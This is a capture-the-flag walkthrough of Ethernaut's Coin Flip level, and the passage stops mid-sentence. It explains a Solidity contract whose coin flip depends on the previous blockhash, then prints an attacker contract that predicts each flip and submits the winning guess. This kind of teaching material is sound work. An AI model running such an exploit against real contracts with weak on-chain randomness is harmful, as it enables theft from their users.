 # Ethernaut Challenge 3 - Coin Flip


## Going through the code

```solidity
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```
Initially the contract declares these 3 variables. 

- The consecutiveWins is a variable that holds the value of how many coin flips we win continuously. 

- lastHash is a variable to record the hash of the previous block.

- FACTOR is an integer that helps in easing the randomization because randomization is not an easy task to do on the blockchain.


```solidity
  constructor() {
    consecutiveWins = 0;
  }
```
A constructor is an optional function that initializes state variables. In our case, we are initializing consecutiveWins as 0;

```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

Here comes the main part of the contract code - the function ```flip()```. This is a public function that returns the value true or false. We first have a ```uint256 blockValue = uint256(blockhash(block.number - 1));``` This blockValue is a typecasted blockhash of the previous block on the blockchain.

> blockhash - every block in a blockchain has a unique fingerprint and the blockhash is used for identifying that particular block.
> block.number gives us the current block > if we subtract 1, we are going to the previous block

We check if the hash of the previous block is the same as the current blockValue. If it is, then we revert the transaction.
Else we equate lastHash to the blockValue. 

In order to get the probability of the coinFlip, we are making a formula of the blockValue/FACTOR. This helps in making the  calculation of the randomization easier.

> FACTOR is just an integer that helps in easing the randomization

The bool side checks if the coinFlip is equal to 1. If it is equal to 1, side becomes true else ```side``` becomes ```false```.

Next we see if the side is equal to the __guess_ that is passed. In the case that it is equal, the consecutiveWins variable goes up by 1 and the function is returned as true. Else, the consecutiveWins is reset and becomes 0 and returns the function value as false.


# Solution
In order to override this contract, let's build another contract to hack this. 
I built the following contract on [Remix IDE](https://remix.ethereum.org/)

### CoinFlipHack.sol


```solidity
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipHack {
    CoinFlip public hackedContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    // _hackedContractAddr = 0xA91C791D56895210967d1ec7a69Fe4b8fc7a910e;

    constructor(address _hackedContractAddr) public {
        hackedContract = CoinFlip(_hackedContractAddr);
    }

    function flip() public returns (bool){
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = uint256(blockValue/FACTOR);
        bool side = coinFlip == 1 ? true : false;
        hackedContract.flip(side);
    }

}
```

So, how is this code overriding the main contract code?

We first import the previous contract by simply making another file copy pasting the code on there and naming it CoinFlip. 

After adding the import statement, let's build our CoinFlipHack smart contract code.
hackedContract is the public variable to represent the original contract.
We are using the same FACTOR from before.

We declare the constructor with the argument __hackedContractAddr__ which is of address type this address is the CoinFlip contract address that we will be deploying at. 

The function flip() has the blockValue same as before and 

